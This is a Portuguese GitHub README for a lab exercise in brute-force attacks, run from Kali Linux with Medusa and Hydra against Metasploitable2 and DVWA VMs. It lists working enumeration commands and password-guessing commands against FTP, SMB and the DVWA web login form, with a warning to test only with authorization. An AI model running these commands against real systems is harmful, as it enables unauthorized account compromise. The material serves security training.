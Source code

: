 
# Desafio: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)

## Resumo
Projeto prático para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux e Medusa, com alvo Metasploitable2 e DVWA. Objetivo: aprender enumeração, execução de ataques e propor medidas de mitigação.

> **Atenção:** todos os testes foram executados apenas em VMs de laboratório (Kali e Metasploitable). Não execute testes em sistemas sem autorização.

## Ambiente
- Hypervisor: VirtualBox  
- Kali Linux — IP: **192.168.1.2**  
- Metasploitable2 (alvo) — IP: **192.168.1.16**  
- Rede: Host-only / Internal Network

## Ferramentas utilizadas
- Kali Linux  
- Medusa  
- Nmap  
- smbclient, enum4linux  
- Hydra (opcional, para formulários HTTP)  
- ssh/sshfs

## Wordlists (exemplos)
- `wordlists/simples_usernames.txt`  
- `wordlists/simples_passwords.txt`  

*(Use wordlists maiores como `rockyou.txt` somente em laboratório.)*

## Comandos principais (exemplos)
### Enumeração
```bash
sudo nmap -sS -sV -p21,22,80,139,445,3306 192.168.1.16 -oN nmap_common.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt


medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f -O results/medusa_ftp.txt


medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f -O results/medusa_smb.txt


hydra -l admin -P wordlists/simples_passwords.txt 192.168.1.16 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=incorrect"

Imagens do Projeto



<p align="center"> <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem1.PNG" width="170" alt="Página Inicial 1"> <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem2.png" width="170" alt="Página Inicial 2"> <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem3.png" width="170" alt="Página Inicial 3"> <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem4.png" width="170" alt="Página Inicial 4"> <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem5.png" width="170" alt="Página Inicial 5"> </p> ```


